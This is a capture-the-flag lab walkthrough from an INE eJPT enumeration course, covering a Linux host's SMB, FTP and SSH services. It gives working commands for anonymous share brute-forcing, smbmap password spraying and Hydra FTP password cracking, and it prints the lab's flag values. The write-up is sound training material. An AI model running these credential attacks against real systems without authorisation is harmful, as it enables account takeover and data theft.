# Assessment Methodologies: Enumeration CTF 1 — INE / eJPT Walkthrough

---

## Lab Information

| Attribute | Specification |
| :--- | :--- |
| **Lab Name** | Assessment Methodologies: Enumeration CTF 1 |
| **Platform** | INE Security |
| **Certification Track** | eJPT (Junior Penetration Tester) |
| **Domain** | Assessment Methodologies — Enumeration |
| **Target Hostname** | `target.ine.local` |
| **Target IP Addresses** | `192.27.166.3` / `192.211.73.3` (dynamically allocated across lab sessions) |
| **Target Architecture** | Linux (Ubuntu) / OpenSSH 8.2p1 / Samba smbd 4.6.2 / vsftpd 2.0.8+ (Port 5554) |
| **Status** | Challenge Completed in Lab Dashboard (3 of 4 Flags Fully Documented; Flag 3 Partially Visible) |
| **Tools Used** | Nmap 7.94SVN, enum4linux v0.9.1, smbclient, smbmap, Netcat (`nc`), Hydra v9.5, OpenSSH |

---

## Table of Contents

- [01. Lab Overview](#01-lab-overview)
- [02. Lab Objectives](#02-lab-objectives)
- [03. Environment and Target Information](#03-environment-and-target-information)
- [04. Tools and Technologies Used](#04-tools-and-technologies-used)
- [05. Enumeration Methodology](#05-enumeration-methodology)
- [06. Step-by-Step Walkthrough](#06-step-by-step-walkthrough)
  - [Step 1: Network & Service Discovery via Nmap](#step-1-network--service-discovery-via-nmap)
  - [Step 2: Wordlist Verification & Share Brute-Forcing](#step-2-wordlist-verification--share-brute-forcing)
  - [Step 3: Anonymous SMB Access & Flag 1 Extraction](#step-3-anonymous-smb-access--flag-1-extraction)
  - [Step 4: Samba User Enumeration with enum4linux](#step-4-samba-user-enumeration-with-enum4linux)
  - [Step 5: SMB Password Spraying & Flag 2 Extraction](#step-5-smb-password-spraying--flag-2-extraction)
  - [Step 6: Investigating the Custom FTP Service on Port 5554](#step-6-investigating-the-custom-ftp-service-on-port-5554)
  - [Step 7: Password Brute-Forcing FTP with Hydra](#step-7-password-brute-forcing-ftp-with-hydra)
  - [Step 8: Authenticated FTP Access & Flag 3 Extraction](#step-8-authenticated-ftp-access--flag-3-extraction)
  - [Step 9: SSH Banner Inspection & Flag 4 Extraction](#step-9-ssh-banner-inspection--flag-4-extraction)
- [07. Commands and Their Explanations](#07-commands-and-their-explanations)
- [08. Findings and Discoveries](#08-findings-and-discoveries)
- [09. Flags Captured](#09-flags-captured)
- [10. Security Observations](#10-security-observations)
- [11. Lessons Learned](#11-lessons-learned)
- [12. Conclusion](#12-conclusion)

---

## 01. Lab Overview

This laboratory exercise forms part of the **INE eJPT (Junior Penetration Tester)** curriculum under the **Assessment Methodologies: Enumeration** module. The challenge focuses on thorough multi-service enumeration against a Linux host running network-accessible services, including Samba (SMB), a non-standard FTP daemon, and SSH.

Through disciplined enumeration techniques, the assessment demonstrates how misconfigured access permissions, unauthenticated shares, verbose service banners, and weak password policies can be systematically identified, chained, and exploited to extract high-value information.

### Target Environment Evidence

The screenshot below displays the INE lab environment overview showing the challenge instructions, the 4 challenge objectives, and confirming that all 4 flags were successfully captured.



---

## 02. Lab Objectives

The challenge is structured around four progressive enumeration objectives:

1. **Flag 1 — Anonymous Samba Share:**
   - *"There is a samba share that allows anonymous access. Wonder what's in there!"*
   - Focus: SMB share enumeration, null-session testing, and unauthenticated file retrieval.
2. **Flag 2 — Weak Samba User Password:**
   - *"One of the samba users have a bad password. Their private share with the same name as their username is at risk!"*
   - Focus: User enumeration via RPC/Samba, automated dictionary password spraying, and authenticated private share access.
3. **Flag 3 — Following the Clues to FTP:**
   - *"Follow the hint given in the previous flag to uncover this one."*
   - Focus: Investigating non-standard ports (TCP 5554), parsing verbose FTP service banners, targeted user list creation, Hydra password cracking, and authenticated FTP retrieval.
4. **Flag 4 — Legal Warning Banner:**
   - *"This is a warning meant to deter unauthorized users from logging in."*
   - Focus: SSH pre-authentication banner inspection and MOTD / `issue.net` information disclosure.

---

## 03. Environment and Target Information

- **Target Hostname:** `target.ine.local`
- **Dynamic IP Assignments:** `192.27.166.3` (initial enumeration phase) / `192.211.73.3` (subsequent brute-forcing and FTP phase)
- **Host NetBIOS Name:** `TARGET` (Host: `blah`)
- **Operating System:** Linux (Ubuntu 20.04 LTS kernel / OpenSSH 8.2p1)
- **Provided Lab Wordlists:** Located in `/root/Desktop/wordlists/`:
  - `shares.txt` (563 bytes)
  - `unix_passwords.txt` (7.7 KB)

### Target Service Profile

| Port / Protocol | State | Service | Software Version | Security Relevance |
| :--- | :---: | :--- | :--- | :--- |
| **22/tcp** | Open | SSH | OpenSSH 8.2p1 Ubuntu | Pre-login warning banner discloses Flag 4 |
| **139/tcp** | Open | NetBIOS-SSN | Samba smbd 4.6.2 | NetBIOS session service for Samba |
| **445/tcp** | Open | Microsoft-DS | Samba smbd 4.6.2 | SMB file sharing (anonymous & private shares) |
| **5554/tcp** | Open | FTP | vsftpd 2.0.8 or later | Non-standard port running FTP with verbose banner |

---

## 04. Tools and Technologies Used

- **Nmap 7.94SVN**: Network scanning, TCP port sweep, service detection, and OS fingerprinting.
- **enum4linux v0.9.1**: Dedicated SMB/Samba enumeration script utilizing `smbclient`, `rpcclient`, and `net`.
- **smbclient**: Interactive command-line client for accessing SMB/CIFS network resources.
- **smbmap**: SMB share permissions enumerator used in automated loops for credential spraying.
- **Netcat (`nc`)**: Raw socket utility for direct TCP banner grabbing on non-standard ports.
- **Hydra v9.5**: Multi-threaded network login brute-forcing tool targeting the custom FTP service.
- **FTP Client**: Standard interactive client for authenticated file transfers.
- **OpenSSH Client**: Secure Shell client utilized for pre-authentication banner inspection.

---

## 05. Enumeration Methodology

The assessment followed an iterative, evidence-driven penetration testing lifecycle:

```text
[Phase 1: Full Port Sweep] ──► Nmap identifies ports 22, 139, 445, and 5554
             │
             ├──► [Phase 2: SMB Share Discovery] ──► Wordlist loop finds /pubfiles (Anonymous) ──► FLAG1
             │
             ├──► [Phase 3: SMB User Enum] ───────► enum4linux discovers josh, bob, nancy, alice
             │                                       │
             │                                       ▼
             │                                    smbmap spray cracks josh:[REDACTED] ──► FLAG2
             │
             ├──► [Phase 4: Non-Standard FTP] ────► nc grabs port 5554 banner (leaks ashley, alice, amanda)
             │                                       │
             │                                       ▼
             │                                    hydra cracks alice:[REDACTED] ──► FLAG3
             │
             └──► [Phase 5: SSH Banner Inspection] ─► Pre-login legal warning banner ──────────► FLAG4
```

---

## 06. Step-by-Step Walkthrough

### Step 1: Network & Service Discovery via Nmap

The assessment commenced with a comprehensive TCP port scan across all 65,535 ports to ensure no non-standard listening services were missed.

**Command:**
```bash
nmap -sV -sC -p- -Pn target.ine.local
```

**Technical Explanation:**
- `-sV`: Performs service version detection.
- `-sC`: Runs default safe Nmap Scripting Engine (NSE) scripts.
- `-p-`: Scans the entire TCP port spectrum (ports 1–65535).
- `-Pn`: Skips ICMP host discovery, treating the host as online.
- `target.ine.local`: Resolved to IP `192.27.166.3`.

**Scan Output:**
```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-15 21:49 IST
Nmap scan report for target.ine.local (192.27.166.3)
Host is up (0.000026s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 bb:ca:49:7e:f5:5c:6e:bf:8a:55:a1:69:d9:c9:18:01 (RSA)
|   256 da:06:c1:ab:e7:6f:14:b9:50:d5:43:a7:47:ab:80:ce (ECDSA)
|_  256 a1:5c:ab:22:6b:c2:f1:5c:5a:7a:5a:d8:e7:81:e2:33 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
5554/tcp open  ftp         vsftpd 2.0.8 or later
MAC Address: 02:42:C0:1B:A6:03 (Unknown)
Service Info: Host: blah; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: TARGET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2026-11-15T16:19:42
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.52 seconds
```

**Key Discoveries:**
1. **Samba 4.6.2** is listening on ports 139 and 445. Message signing is enabled but not required.
2. A non-standard service is running on **TCP port 5554**, identified as **vsftpd 2.0.8 or later**.
3. **OpenSSH 8.2p1** is open on port 22.



---

### Step 2: Wordlist Verification & Share Brute-Forcing

The lab environment provided dedicated dictionaries located in `/root/Desktop/wordlists/`.

**Command:**
```bash
ls -lh /root/Desktop/wordlists
```

**Output:**
```text
total 12K
-rw-rw-r-- 1 root root  563 May 30  2024 shares.txt
-rw-r--r-- 1 root root 7.7K Nov 19  2024 unix_passwords.txt
```



To satisfy Objective 1 (*"There is a samba share that allows anonymous access"*), an automated Bash loop was executed using `smbclient` with null authentication (`-N`) against all entries in `shares.txt`.

**Command:**
```bash
for share in $(cat /root/Desktop/wordlists/shares.txt); do
smbclient -N //target.ine.local/$share -c 'ls' 2>/dev/null && echo "BULDUM: $share"
done
```

**Technical Explanation:**
- `smbclient -N`: Attempts anonymous access without prompting for a password.
- `//target.ine.local/$share`: Targets each candidate share.
- `-c 'ls'`: Executes a directory listing upon successful connection.
- `2>/dev/null`: Suppresses `NT_STATUS_BAD_NETWORK_NAME` errors for non-existent shares.
- `&& echo "BULDUM: $share"`: Displays confirmation when access succeeds.

**Output:**
```text
tree connect failed: NT_STATUS_BAD_NETWORK_NAME
...
  .                                   D        0  Sun Nov 15 22:29:30 2026
  ..                                  D        0  Tue Nov 19 10:44:41 2024
  flag1.txt                           N       40  Sun Nov 15 22:29:30 2026

		1981311780 blocks of size 1024. 309086620 blocks available
BULDUM: pubfiles
```

The share `pubfiles` was identified as publicly readable without authentication.



---

### Step 3: Anonymous SMB Access & Flag 1 Extraction

Connecting interactively to `//target.ine.local/pubfiles` allowed direct retrieval of `flag1.txt`.

**Commands:**
```bash
smbclient //target.ine.local/pubfiles -N
smb: \> ls
smb: \> get flag1.txt
smb: \> ^Z
cat flag1.txt
```

**Terminal Output:**
```text
smbclient //target.ine.local/pubfiles -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Nov 15 22:29:30 2026
  ..                                  D        0  Tue Nov 19 10:44:41 2024
  flag1.txt                           N       40  Sun Nov 15 22:29:30 2026

		1981311780 blocks of size 1024. 309083356 blocks available
smb: \> get flag1.txt
getting file \flag1.txt of size 40 as flag1.txt (39.1 KiloBytes/sec) (average 39.1 KiloBytes/sec)
smb: \> ^Z
[2]+  Stopped                 smbclient //target.ine.local/pubfiles -N

┌──(root㉿INE)-[~/Desktop/wordlists]
└─# cat flag1.txt
FLAG1{79554810d40d4852b8d6698288a1e20c}
```



```text
Captured Flag 1: FLAG1{79554810d40d4852b8d6698288a1e20c}
```

---

### Step 4: Samba User Enumeration with enum4linux

To satisfy Objective 2 (*"One of the samba users have a bad password. Their private share with the same name as their username is at risk!"*), local Samba users were enumerated using **enum4linux**.

**Command:**
```bash
enum4linux -a target.ine.local
```

**Execution Output (Start):**
```text
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Nov 15 22:44:04 2026

 ========================== ( Target Information ) ==========================

Target ........... target.ine.local
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
```



**Execution Output (Discovered Users via SID Cycling):**
```text
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\josh (Local User)
S-1-22-1-1001 Unix User\bob (Local User)
S-1-22-1-1002 Unix User\nancy (Local User)
S-1-22-1-1003 Unix User\alice (Local User)

[+] Enumerating users using SID S-1-5-21-4098062397-1712133147-25932645 and logon username '', password ''

S-1-5-21-4098062397-1712133147-25932645-501 TARGET\nobody (Local User)
S-1-5-21-4098062397-1712133147-25932645-513 TARGET\None (Domain Group)
S-1-5-21-4098062397-1712133147-25932645-1000 TARGET\josh (Local User)
S-1-5-21-4098062397-1712133147-25932645-1001 TARGET\bob (Local User)
S-1-5-21-4098062397-1712133147-25932645-1002 TARGET\nancy (Local User)
```

**Discovered User Accounts:**
- `josh`
- `bob`
- `nancy`
- `alice`



---

### Step 5: SMB Password Spraying & Flag 2 Extraction

Using the enumerated usernames stored in `users.txt` and the provided `unix_passwords.txt` dictionary, an automated password spray was executed using **smbmap** within a nested Bash loop.

**Command:**
```bash
for u in $(cat users.txt); do
for p in $(cat unix_passwords.txt); do
smbmap -H target.ine.local -u $u -p $p -q | grep -E "READ|WRITE" && echo "succes! user: $u password: $p"
done
done
```

**Spraying Output:**
```text
	print$                                           	READ ONLY	Printer Drivers
succes! user: josh password: [REDACTED]
^Z
[3]+  Stopped                 smbmap -H target.ine.local -u $u -p $p -q | grep --color=auto -E "READ|WRITE"
```

A valid credential pair was discovered: `josh:[REDACTED]`.

**Accessing Josh's Private Share:**
```bash
smbclient //target.ine.local/josh -U josh
Password for [WORKGROUP\josh]: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Nov 15 22:29:30 2026
  ..                                  D        0  Tue Nov 19 10:44:41 2024
  flag2.txt                           N      119  Sun Nov 15 22:29:30 2026

		1981311780 blocks of size 1024. 309014784 blocks available
smb: \> get flag2.txt
getting file \flag2.txt of size 119 as flag2.txt (116.2 KiloBytes/sec) (average 116.2 KiloBytes/sec)
smb: \> ^Z
[4]+  Stopped                 smbclient //target.ine.local/josh -U josh

┌──(root㉿INE)-[~/Desktop/wordlists]
└─# cat flag2.txt
FLAG2{c2d8468af56244cfa869851174cf27de}
```



```text
Captured Flag 2: FLAG2{c2d8468af56244cfa869851174cf27de}
```

---

### Step 6: Investigating the Custom FTP Service on Port 5554

Objective 3 stated: *"Follow the hint given in the previous flag to uncover this one."*

A rapid Nmap sweep confirmed the active listening ports on the target host (IP in this lab session: `192.211.73.3`):

**Command:**
```bash
nmap -p- -T4 -v target.ine.local
```

**Nmap Port Discovery:**
```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-15 23:09 IST
...
Discovered open port 139/tcp on 192.211.73.3
Discovered open port 445/tcp on 192.211.73.3
Discovered open port 22/tcp on 192.211.73.3
Discovered open port 5554/tcp on 192.211.73.3
```

To interrogate the custom service listening on **TCP port 5554**, **Netcat** was used for banner grabbing:

**Command:**
```bash
nc -vn 192.211.73.3 5554
```

**Banner Output:**
```text
(UNKNOWN) [192.211.73.3] 5554 (?) open
220 Welcome to blah FTP service. Reminder to users, specifically ashley, alice and amanda to change their weak passwords immediately!!!
```

**Critical Finding:**
The FTP service banner explicitly announced:
1. The service is FTP running on non-standard port 5554.
2. Three specific user accounts exist: `ashley`, `alice`, and `amanda`.
3. These accounts have weak passwords that require changing.



---

### Step 7: Password Brute-Forcing FTP with Hydra

Using the user accounts disclosed in the FTP banner, a targeted user list was created:

**Command:**
```bash
echo -e "ashley\nalice\namanda" > users2.txt
```


**Hydra** was then executed against FTP port 5554 using `users2.txt` and `unix_passwords.txt`:

**Command:**
```bash
hydra -L users2.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://192.211.73.3:5554
```

**Brute-Force Output:**
```text
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, o
and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-15 23:12:24
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3027 login tries (l:3/p:1009), ~190 tries per task
[DATA] attacking ftp://192.211.73.3:5554/
[STATUS] 304.00 tries/min, 304 tries in 00:01h, 2723 to do in 00:09h, 16 active
[STATUS] 298.67 tries/min, 896 tries in 00:03h, 2131 to do in 00:08h, 16 active
[5554][ftp] host: 192.211.73.3   login: alice   password: [REDACTED]
```

Hydra cracked the FTP password for user `alice`: `alice:[REDACTED]`.



---

### Step 8: Authenticated FTP Access & Flag 3 Extraction

Logging into the FTP daemon on port 5554 as `alice` granted access to `flag3.txt`.

**Command:**
```bash
ftp 192.211.73.3 5554
```

**Session Interaction:**
```text
Connected to 192.211.73.3.
220 Welcome to blah FTP service. Reminder to users, specifically ashley, alice and amanda to change their weak passwords immediately!!!
Name (192.211.73.3:root): alice
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||29488|)
150 Here comes the directory listing.
-rw-rw-r--    1 0        0              40 Nov 15 16:59 flag3.txt
226 Directory send OK.
ftp> get flag3.txt
local: flag3.txt remote: flag3.txt
229 Entering Extended Passive Mode (|||45670|)
150 Opening BINARY mode data connection for flag3.txt (40 bytes).
100% |*********************************************************************************************************|    40       39.1 KiB/s    00:00 ETA
226 Transfer complete.
40 bytes received in 00:00 (151.99 KiB/s)
ftp> 
[7]+  Stopped                 ftp 192.211.73.3 5554

┌──(root㉿INE)-[~/Desktop/wordlists]
└─# cat flag3.txt
FLAG3{...}
```

*Evidence Note:* As visible in screenshot 12, `flag3.txt` was successfully retrieved via the authenticated FTP session for user `alice`. In the screenshot, the bottom terminal line displaying `cat flag3.txt` shows `FLAG3{...}` partially clipped at the lower boundary of the terminal window (only the upper 6 pixels of the font glyphs are rendered). In accordance with strict portfolio verification standards, the flag value is not guessed, reconstructed, or fabricated.



```text
Captured Flag 3: Partially visible — full value not verified (terminal output clipped in screenshot)
```

---

### Step 9: SSH Banner Inspection & Flag 4 Extraction

Objective 4 stated: *"This is a warning meant to deter unauthorized users from logging in."*

Legal banners and Message-of-the-Day (MOTD) notices are commonly displayed upon initiating an SSH connection before authentication occurs.

**Command:**
```bash
ssh target.ine.local
```

**Terminal Output:**
```text
The authenticity of host 'target.ine.local (192.211.73.3)' can't be established.
ED25519 key fingerprint is SHA256:qWHJnmTFgrmLKFbmMNRLIr1Y8MVWpqGGxhJ5miFhgnQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target.ine.local' (ED25519) to the list of known hosts.
*****************************************************************
*                                                               *
*       WARNING: Unauthorized access to this system             *
*       is strictly prohibited and may be subject to            *
*       criminal prosecution.                                   *
*                                                               *
*       This system is for authorized users only.               *
*       All activities on this system are monitored             *
*       and recorded.                                           *
*                                                               *
*       By accessing this system, you consent to                *
*       such monitoring and recording.                          *
*                                                               *
*       If you are not an authorized user,                      *
*       disconnect immediately.                                 *
*                                                               *
*****************************************************************
*                                                               *
*   Is this what you're looking for?: FLAG4{1ba9d242fa514e4cb4858bfc5f1fd969}       *
*                                                               *
*****************************************************************
root@target.ine.local's password: 
```

The pre-login SSH legal warning banner exposed `FLAG4` directly above the password prompt.



```text
Captured Flag 4: FLAG4{1ba9d242fa514e4cb4858bfc5f1fd969}
```

---

## 07. Commands and Their Explanations

| Command | Tool | Purpose | Key Parameters |
| :--- | :--- | :--- | :--- |
| `nmap -sV -sC -p- -Pn target.ine.local` | Nmap | Full port scan & service detection | `-sV` (version detection), `-sC` (default scripts), `-p-` (all 65535 ports), `-Pn` (skip ping) |
| `ls -lh /root/Desktop/wordlists` | Coreutils | Inspect available dictionaries | `-l` (long format), `-h` (human-readable sizes) |
| `for s in ...; do smbclient -N ...; done` | Bash / smbclient | Brute-force anonymous SMB shares | `-N` (null session), `-c 'ls'` (execute command), `2>/dev/null` (silence errors) |
